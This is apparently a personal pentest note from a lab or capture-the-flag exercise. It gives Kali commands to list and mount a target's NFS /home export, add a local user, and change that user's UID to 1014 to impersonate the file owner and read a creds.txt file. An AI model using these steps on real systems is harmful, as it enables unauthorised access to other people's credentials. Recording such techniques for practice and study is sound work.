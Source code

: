 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
showmount -e $TARGET
```

![[Pasted image 20221115122217.png]]
   
Notice the /home directory

```bash - kali
mkdir ./home
```

```bash - kali
sudo mount -t nfs -o nolock,nfsvers=3 $TARGET:/home ./home/
```

```bash - kali
cd ./home  && ls
```

Digging through, we see a creds file:

![[Pasted image 20221109113447.png | 600]]

Now we create a new user on kali, change it's user id value, then open the file:

```bash - kali
sudo adduser pwn
```

```bash - kali
cat /etc/passwd | grep pwn
```
   
now to change the 1002 to 1014

```bash - kali
sudo sed -i -e 's/1002/1014/g' /etc/passwd
```

```bash - kali
cat /etc/passwd | grep pwn
```
   
```bash - kali
su pwn
```

```bash - kali
cat creds.txt
```

---

```bash - kali
mount -t nfs $TARGET:/Mount/ /MyFolder -no lock
```

![[Pasted image 20220112111950.png]]

![[Pasted image 20220112112052.png]]
